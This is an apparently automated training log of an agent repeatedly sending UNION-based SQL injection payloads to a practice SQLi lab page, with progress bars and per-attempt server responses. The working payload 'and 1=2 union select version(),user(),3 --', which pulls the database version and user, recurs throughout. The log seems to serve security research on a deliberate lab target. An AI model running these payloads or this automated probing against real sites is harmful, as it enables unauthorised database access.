Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 1571/1000000 [9:35:48<11249:39:30, 40.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1572/1000000 [9:35:48<7950:09:07, 28.67s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1573/1000000 [9:35:49<5641:39:22, 20.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1574/1000000 [9:35:51<4109:37:28, 14.82s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1575/1000000 [9:35:52<2960:59:33, 10.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1576/1000000 [9:35:54<2221:36:38,  8.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1577/1000000 [9:35:56<1716:45:51,  6.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user

  0%|          | 1578/1000000 [9:39:38<19688:16:41, 70.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 1579/1000000 [9:39:57<15376:34:23, 55.44s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1580/1000000 [9:39:58<10838:50:43, 39.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 1581/1000000 [9:41:55<17278:31:02, 62.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server 

  0%|          | 1582/1000000 [9:42:19<14145:36:56, 51.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1583/1000000 [9:42:20<9980:31:00, 35.99s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1584/1000000 [9:42:21<7063:22:41, 25.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1585/1000000 [9:42:22<5021:01:55, 18.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1586/1000000 [9:42:23<3549:30:43, 12.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1587/1000000 [9:42:24<2563:31:49,  9.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1588/1000000 [9:42:24<1871:15:37,  6.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1589/1000000 [9:42:26<1395:35:15,  5.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1590/1000000 [9:42:26<1053:14:36,  3.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1591/1000000 [9:42:27<817:35:28,  2.95s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1592/1000000 [9:42:28<655:34:13,  2.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 1593/1000000 [9:44:10<8911:02:12, 32.13s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
ht

  0%|          | 1594/1000000 [9:45:15<11670:20:54, 42.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1595/1000000 [9:45:16<8244:34:52, 29.73s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user()

  0%|          | 1596/1000000 [9:45:50<8610:35:42, 31.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1597/1000000 [9:45:52<6187:24:28, 22.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1598/1000000 [9:45:54<4497:57:03, 16.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1599/1000000 [9:45:55<3223:58:31, 11.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1600/1000000 [9:45:56<2333:43:02,  8.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1601/1000000 [9:45:57<1715:49:59,  6.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1602/1000000 [9:45:58<1281:18:01,  4.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1603/1000000 [9:45:59<973:32:51,  3.51s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1604/1000000 [9:46:00<765:18:09,  2.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1605/1000000 [9:46:01<617:20:11,  2.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1606/1000000 [9:46:02<508:16:38,  1.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1607/1000000 [9:46:04<517:01:50,  1.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1608/1000000 [9:46:05<437:51:49,  1.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1609/1000000 [9:46:07<478:32:01,  1.73s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1610/1000000 [9:46:08<416:08:24,  1.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 1611/1000000 [9:46:28<1971:57:12,  7.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1612/1000000 [9:46:29<1456:59:03,  5.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1613/1000000 [9:46:30<1105:24:10,  3.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1614/1000000 [9:46:30<810:58:38,  2.92s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1615/1000000 [9:46:31<644:39:53,  2.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1616/1000000 [9:46:32<528:33:02,  1.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1617/1000000 [9:46:33<446:40:36,  1.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1618/1000000 [9:46:34<396:13:57,  1.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1619/1000000 [9:46:35<357:45:14,  1.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1620/1000000 [9:46:36<343:11:09,  1.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 1621/1000000 [9:47:55<6787:27:24, 24.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1622/1000000 [9:47:56<4842:41:05, 17.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1623/1000000 [9:47:57<3468:17:19, 12.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1624/1000000 [9:47:58<2507:02:05,  9.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org

  0%|          | 1625/1000000 [9:48:08<2612:23:02,  9.42s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1626/1000000 [9:48:09<1931:19:16,  6.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1627/1000000 [9:48:10<1434:37:43,  5.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1628/1000000 [9:48:11<1079:41:11,  3.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1629/1000000 [9:48:12<837:35:29,  3.02s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1630/1000000 [9:48:13<671:09:34,  2.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1631/1000000 [9:48:14<545:25:37,  1.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1632/1000000 [9:48:15<455:48:33,  1.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1633/1000000 [9:48:17<478:39:41,  1.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/lev

  0%|          | 1634/1000000 [9:48:43<2505:16:16,  9.03s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1635/1000000 [9:48:45<1919:07:47,  6.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1636/1000000 [9:48:46<1428:10:18,  5.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/lev

  0%|          | 1637/1000000 [9:49:02<2317:17:51,  8.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1638/1000000 [9:49:03<1699:44:39,  6.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1639/1000000 [9:49:04<1264:53:51,  4.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1640/1000000 [9:49:05<960:41:23,  3.46s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Serve

  0%|          | 1641/1000000 [9:51:06<10739:10:05, 38.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1642/1000000 [9:51:07<7599:38:10, 27.40s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1643/1000000 [9:51:08<5394:43:44, 19.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1644/1000000 [9:51:09<3852:08:28, 13.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1645/1000000 [9:51:09<2772:10:48, 10.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1646/1000000 [9:51:10<2022:44:47,  7.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


